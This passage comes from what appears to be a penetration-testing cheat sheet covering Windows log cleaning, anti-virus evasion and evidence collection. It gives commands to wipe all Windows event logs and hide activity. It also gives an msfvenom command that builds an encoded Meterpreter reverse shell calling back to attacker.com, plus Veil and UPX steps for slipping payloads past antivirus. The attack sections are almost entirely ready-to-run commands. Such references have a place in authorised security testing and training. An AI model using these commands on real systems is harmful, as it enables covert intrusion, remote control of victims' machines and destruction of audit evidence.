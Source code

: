 #### **Windows Log Cleaning**
```cmd
REM Clear Windows Event Logs
wevtutil el | Foreach-Object {wevtutil cl "$_"}

REM Clear specific logs
wevtutil cl Security
wevtutil cl System
wevtutil cl Application

REM Clear command history
doskey /history
```

### **Phase 10.2: Anti-Virus Evasion**

#### **Payload Encoding & Obfuscation**
```bash
# MSFvenom encoding
msfvenom -p windows/meterpreter/reverse_tcp LHOST=attacker.com LPORT=4444 -e x86/shikata_ga_nai -i 10 -f exe -o payload.exe

# PowerShell obfuscation
powershell.exe -EncodedCommand [base64_encoded_command]

# Veil framework for evasion
./Veil.py -t Evasion -p python/meterpreter/rev_tcp.py

# Custom binary packing
upx --best payload.exe
```

---

## Reporting & Documentation

### **Phase 11.1: Evidence Collection**

#### **Screenshot & Documentation**
```bash
# Automated screenshot capture
import -window root screenshot_$(date +%Y%m%d_%H%M%S).png

# Terminal session recording  
script -a terminal_session.log

# Network traffic capture
tcpdump -i eth0 -w network_capture.pcap host target.com

# Memory dumps
dd if=/dev/mem of=memory_dump.raw
```
